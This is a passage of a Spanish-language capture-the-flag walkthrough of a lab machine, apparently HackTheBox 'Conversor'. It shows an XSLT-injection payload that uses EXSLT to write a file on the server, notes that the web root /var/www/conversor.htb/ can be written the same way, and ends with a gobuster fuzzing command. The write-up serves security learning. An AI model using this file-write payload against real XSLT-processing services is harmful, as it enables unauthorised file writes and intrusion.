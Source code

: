 En este caso lo que hacemos es que muestre en la pagina como esta funcionando por dentro y que esta haciendo.

Si subimos esto a la pagina veremos que se sube de forma correcta y nos generara un `.html` en el cual si entramos veremos unicamente esto:

```
libxslt http://xmlsoft.org/XSLT/ 
```

Vemos que esta funcionando y nos esta mostrando que esta usando una libreria super famosa de `linux` de la biblioteca `C`, que puede tener algunas funciones interesantes.

Si probamos a escribir un archivo en `/tmp` de esta forma:

```xsl
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exsl="http://exslt.org/common"
  extension-element-prefixes="exsl"
  version="1.0">
  
  <xsl:template match="/">
    <exsl:document href="file:///tmp/evil.txt" method="text">
      Hello World from EXSLT!
    </exsl:document>
    Written to file!
  </xsl:template>
</xsl:stylesheet>
```

Lo guardamos, subimos los dos archivos y veremos que funciona, ya que si entramos al `HTML` generado veremos lo siguiente:

```
Written to file!
```

Este codigo lo saque de idea de esta fuente:

URL = [XSLT Injection Info](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/#read-files-and-ssrf-using-document)

Ahora sabiendo esto podremos probar a realizar otras funciones mas interesantes, si probamos en la ruta `/var/www/conversor.htb/` tambien funcionara ya que es la ruta tipica de `apache2` cuando se crea un dominio.

## Escalate user www-data

### Gobuster

Vamos a realizar un poco de `fuzzing` a ver que vemos.

```shell
gobuster dir -u http://conversor.htb/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```
